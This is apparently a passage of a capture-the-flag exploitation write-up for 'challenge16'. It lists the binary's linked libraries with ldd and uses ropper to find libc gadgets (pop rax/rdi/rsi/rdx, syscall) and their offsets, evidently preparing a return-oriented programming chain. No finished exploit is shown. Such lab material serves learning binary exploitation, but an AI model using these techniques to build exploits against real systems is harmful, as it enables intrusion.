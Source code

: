 Check libraries the binary uses:
```
root@hlUbuntu64:~/challenges/challenge16# ldd challenge16
	linux-vdso.so.1 =>  (0x00007ffff7ffd000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c2b000)
	/lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
```

Check libc for gadgets:
```
root@hlUbuntu64:~/challenges/challenge16# ropper
(ropper)> type rop
(ropper)> file /lib/x86_64-linux-gnu/libc.so.6
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.

(libc.so.6/ELF/x86_64)> search /1/ pop rax
[INFO] Searching for gadgets: pop rax

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x0000000000018ec8: pop rax; ret 0x18;
0x000000000003a718: pop rax; ret;

(libc.so.6/ELF/x86_64)> search /1/ pop rdi
[INFO] Searching for gadgets: pop rdi

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x0000000000067449: pop rdi; ret 0xffff;
0x00000000000f1c2b: pop rdi; ret 9;
0x0000000000021102: pop rdi; ret;

(libc.so.6/ELF/x86_64)> search /1/ pop rsi
[INFO] Searching for gadgets: pop rsi

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x00000000001014fb: pop rsi; ret 0xcdbb;
0x00000000000202e8: pop rsi; ret;

(libc.so.6/ELF/x86_64)> search /1/ pop rdx
[INFO] Searching for gadgets: pop rdx

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x0000000000001b92: pop rdx; ret;

(libc.so.6/ELF/x86_64)> search /1/ syscall
[INFO] Searching for gadgets: syscall

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x00000000000bb945: syscall; ret;

```
